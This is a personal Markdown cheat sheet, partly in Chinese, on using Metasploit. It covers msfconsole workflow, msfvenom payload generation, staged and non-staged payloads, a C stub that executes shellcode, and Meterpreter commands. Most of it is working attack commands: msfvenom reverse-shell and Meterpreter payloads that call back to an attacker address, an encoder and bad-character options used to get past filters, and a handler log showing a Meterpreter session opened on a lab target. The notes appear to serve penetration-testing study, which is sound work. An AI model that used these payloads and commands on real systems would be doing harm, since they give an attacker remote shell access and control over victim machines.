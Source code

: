 # Metasploit
###### tags: `Security` `Tools`
[TOC]

---

# Reference
[Using exploits](https://www.offensive-security.com/metasploit-unleashed/using-exploits/)

# Msfconsole
```
msf> search snmp
msf> use exploit/.../.../...
msf> info
msf> show options
msf> set RHOST 192.168...
msf> set LHOST 192.168...
msf> set LPORT ...
msf> set PAYLOAD windows/...
msf> exploit
```
 + set global parameter
`msf> setg RHOSTS 192.168...`

 + database services
```
msf> hosts
msf> db_nmap 192.168.31.200-254 --top-ports 20
msf> services -p 443 # print all machine open 443 port
```

## modules
 * #### Auxiliary
```
msf > show auxiliary
```
 * #### Exploits
 
# MSFVenom
## cheatsheet
```
msfvenom --list payloads | grep linux | grep x64    // search payloads
msfvenom -p linux/x64/exec --list-options           // list options
// generate full interactive reverse shell
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.12 LPORT=7702 -f elf -o msf.bin 
```
## overview
```
msfvenom -p windows/shell_reverse_tcp  \
LHOST=192.168.30.5                     \
LPORT=443                              \
-f c                                   \
-a x86                                 \
--platform windows                     \
-b "\x00\x0a\x0d"                      \
-e x86/shikata_ga_nai                  \
EXITFUNC=thread
```
注意這個生成的 `shellcode` 會需要用到 `stack` 自我解壓縮 ，如果 `shellcode` 放在 `stack` 中(`ESP`指向位置)，要記得在最前頭塞 `nop`

### EXITFUNC
 * thread: This method is used in most exploitation scenarios where the exploited process (e.g. IE) runs the shellcode in a sub-thread and exiting this thread results in a working application/system (clean exit)
 * process: This method should be used with **multi/handler**. This method should also be used with any exploit where a master process restarts it on exit.
 * seh: This method should be used when there is a structured exception handler (SEH) that will restart the thread or process automatically when an error occurs.
 
[shellcode note](https://hackmd.io/@WildfootW/Cybersecurity/%2F%40WildfootW%2FS1DpqYLYW)
[msfvenom command cheat sheet](https://netsec.ws/?p=331)

## Useful Payload
* `use windows/meterpreter/reverse_https`
* `use windows/meterpreter/reverse_tcp_allports`

## Payload staged/non-staged
```
msfvenom -p <payload> -f <format> LHOST= LPORT= -e <encoder> -b <bad-chars>
# -e x86\shikata_ga_nai
msfvenom –list payload
```
* staged payload `Metasploit exploit/multi/handler` `windows/shell/reverse_tcp`
* non-staged payload `nc -nvlp [port]` `windows/shell_reverse_tcp` (sent in its entirety in one go)
```
windows/shell/reverse_tcp - Connect back to attacker, Spawn cmd shell (staged)
windows/shell_reverse_tcp - Connect back to attacker and spawn a command shell
```

### example: using staged payload
<pre><u style="text-decoration-style:single">msf6</u> &gt; use exploit/multi/handler 
<font color="#277FFF"><b>[*]</b></font> Using configured payload generic/shell_reverse_tcp
<u style="text-decoration-style:single">msf6</u> exploit(<font color="#EC0101"><b>multi/handler</b></font>) &gt; set lhost 10.10.14.12
lhost =&gt; 10.10.14.12
<u style="text-decoration-style:single">msf6</u> exploit(<font color="#EC0101"><b>multi/handler</b></font>) &gt; set lport 7702
lport =&gt; 7702
<u style="text-decoration-style:single">msf6</u> exploit(<font color="#EC0101"><b>multi/handler</b></font>) &gt; set payload linux/x64/meterpreter/reverse_tcp 
payload =&gt; linux/x64/meterpreter/reverse_tcp
<u style="text-decoration-style:single">msf6</u> exploit(<font color="#EC0101"><b>multi/handler</b></font>) &gt; run
</pre>

```
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.12 LPORT=7702 -f elf -o msf.bin
// generate upload & execute
```

<pre><font color="#277FFF"><b>[*]</b></font> Started reverse TCP handler on 10.10.14.12:7702 
<font color="#277FFF"><b>[*]</b></font> Sending stage (3008420 bytes) to 10.10.10.61
<font color="#277FFF"><b>[*]</b></font> Meterpreter session 1 opened (10.10.14.12:7702 -&gt; 10.10.10.61:46986) at 2020-11-14 21:02:55 +0800

<u style="text-decoration-style:single">meterpreter</u> &gt; ls
</pre>

## test payload
format 選 `-f c`
```
#include <stdio.h>

unsigned char buf[] = ""

int main()
{
    void (*f)() = (void (*)()) buf;
    f();
    return 0;
}
```
編譯
```
gcc -m32 -z execstack
```


# Meterpreter
## Online Resources
* [METERPRETER BASIC COMMANDS](https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/)
## Commands
### execute
```
meterpreter > execute -f bash -i
-f <opt>  The executable command to run.
-i        Interact with the process after creating it.
-a <opt>  The arguments to pass to the command.
-c        Channelized I/O (required for interaction).
```